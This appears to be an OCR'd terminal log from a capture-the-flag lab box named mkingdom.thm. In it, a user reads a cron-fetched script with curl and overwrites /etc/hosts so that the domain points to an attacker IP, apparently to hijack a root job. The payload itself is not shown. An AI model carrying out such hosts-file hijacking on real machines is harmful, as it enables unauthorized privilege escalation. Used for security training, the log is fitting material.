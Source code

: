 `# The following lines are desirable for IPv6 capable hosts`  
`::1 ip6-localhost ip6-loopback`  
`fe00::0 ip6-localnet`  
`ff00::0 ip6-mcastprefix`  
`ff02::1 ip6-allnodes`  
`ff02::2 ip6-allrouters`

`mario@mkingdom:/tmp$ echo "10.9.240.91 mkingdom.thm" >> /etc/hosts`  
`echo "10.9.240.91 mkingdom.thm" >> /etc/hosts`  
`mario@mkingdom:/tmp$ cat /etc/hosts`  
`cat /etc/hosts`  
`127.0.0.1 localhost`  
`127.0.1.1 mkingdom.thm`  
`127.0.0.1 backgroundimages.concrete5.org`  
`127.0.0.1 www.concrete5.org`  
`127.0.0.1 newsflow.concrete5.org`

`# The following lines are desirable for IPv6 capable hosts`  
`::1 ip6-localhost ip6-loopback`  
`fe00::0 ip6-localnet`  
`ff00::0 ip6-mcastprefix`  
`ff02::1 ip6-allnodes`  
`ff02::2 ip6-allrouters`

`10.9.240.91 mkingdom.thm`  
`mario@mkingdom:/tmp$ curl mkingdom.thm:85/app/castle/application/counter.sh`  
`curl mkingdom.thm:85/app/castle/application/counter.sh`  
`#!/bin/bash`  
`echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."`  
`mario@mkingdom:/tmp$ sed -i 's/^127\.0\.1\.1[ \t]\+mkingdom\.thm/10.9.240.91 mkingdom.thm/' /etc/hosts`  
`<ingdom\.thm/10.9.240.91 mkingdom.thm/' /etc/hosts`  
`sed: couldn't open temporary file /etc/sedQdXJSl: Permission denied`  
`mario@mkingdom:/tmp$ cat > /etc/hosts`  
`cat > /etc/hosts`  
`127.0.0.1 localhost`  
`10.9.240.91 mkingdom.thm`  
`127.0.0.1 backgroundimages.concrete5.org`  
`127.0.0.1 www.concrete5.org`  
`127.0.0.1 newsflow.concrete5.org`

`# The following lines are desirable for IPv6 capable hosts`  
`::1 ip6-localhost ip6-loopback`  
`fe00::0 ip6-localnet`  
`ff00::0 ip6-mcastprefix`  
`ff02::1 ip6-allnodes`  
`ff02::2 ip6-allrouters127.0.0.1 localhost`  
`10.9.240.91 mkingdom.thm`  
`127.0.0.1 backgroundimages.concrete5.org`  
`127.0.0.1 www.concrete5.org`  
`127.0.0.1 newsflow.concrete5.org`

`# The following lines are desirable for IPv6 capable hosts`  
`::1 ip6-localhost ip6-loopback`  
`fe00::0 ip6-localnet`  
`ff00::0 ip6-mcastprefix`  
`ff02::1 ip6-allnodes`  
`ff02::2 ip6-allrouters`